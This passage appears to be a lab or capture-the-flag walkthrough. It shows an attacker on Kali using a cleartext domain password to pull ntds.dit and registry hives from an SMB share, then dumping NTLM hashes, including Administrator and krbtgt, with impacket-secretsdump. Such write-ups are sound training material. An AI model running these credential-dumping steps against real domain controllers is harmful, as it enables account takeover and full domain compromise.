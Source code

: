 ```
┌──(kali㉿kali)-[~]
└─$ smbclient \\\\192.168.120.181\\Password\ Audit -U 'V.Ventz%HotelCalifornia194!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct  5 04:49:16 2021
  ..                                  D        0  Tue Oct  5 04:49:16 2021
  Active Directory                    D        0  Tue Oct  5 04:49:15 2021
  registry                            D        0  Tue Oct  5 04:49:16 2021

                7706623 blocks of size 4096. 2680915 blocks available
smb: \> 
```

These may be useful to us. Let's go ahead and download everything in both directories.

```
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \Active Directory\ntds.dit of size 25165824 as Active Directory/ntds.dit (3174.4 KiloBytes/sec) (average 3174.4 KiloBytes/sec)
getting file \Active Directory\ntds.jfm of size 16384 as Active Directory/ntds.jfm (125.0 KiloBytes/sec) (average 3124.8 KiloBytes/sec)
getting file \registry\SECURITY of size 65536 as registry/SECURITY (470.6 KiloBytes/sec) (average 3079.7 KiloBytes/sec)
getting file \registry\SYSTEM of size 16777216 as registry/SYSTEM (3202.5 KiloBytes/sec) (average 3127.6 KiloBytes/sec)
smb: \> 
```

Let's see what we got.

```
┌──(kali㉿kali)-[~]
└─$ ls -l Active\ Directory
total 24592
-rw-r--r-- 1 kali kali 25165824 Jan 10 13:49 ntds.dit
-rw-r--r-- 1 kali kali    16384 Jan 10 13:49 ntds.jfm

┌──(kali㉿kali)-[~]
└─$ ls -l registry         
total 16448
-rw-r--r-- 1 kali kali    65536 Jan 10 13:49 SECURITY
-rw-r--r-- 1 kali kali 16777216 Jan 10 13:49 SYSTEM
```

This looks like an admin has performed a password audit on the domain controller but forgot to remove the mapped share. Since we now have the **NTDS.dit** file and **SYSTEM** hive, we can attempt retrieve domain user hashes. Let's pass these files into `impacket-secretsdump`.

```
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
```